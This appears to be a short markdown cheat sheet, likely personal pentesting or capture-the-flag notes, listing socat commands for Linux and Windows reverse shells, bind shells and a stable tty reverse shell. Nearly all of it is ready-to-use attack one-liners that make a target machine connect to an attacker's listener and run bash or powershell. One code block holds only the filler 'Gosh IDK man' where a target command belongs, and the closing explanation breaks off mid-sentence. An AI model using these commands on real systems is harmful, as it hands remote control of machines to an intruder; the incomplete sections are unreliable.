 # socat

### Reverse Shell

```
socat TCP-L:<port> -
```
basic reverse shell listener in socat

>will work on Linux or Windows

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
windows reverse shell from target

```console
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
Linux Reverse shell from target

---

## Bind Shell

```console
socat TCP-L:<PORT> EXEC:"bash -li"
```
>target command

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
``` 
>listener for windows

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
>used to connect from attacking machine

---

## Stable tty reverse shell

>will only work on a Linux target

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0 
```

>listener

```
Gosh IDK man 
```
As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z
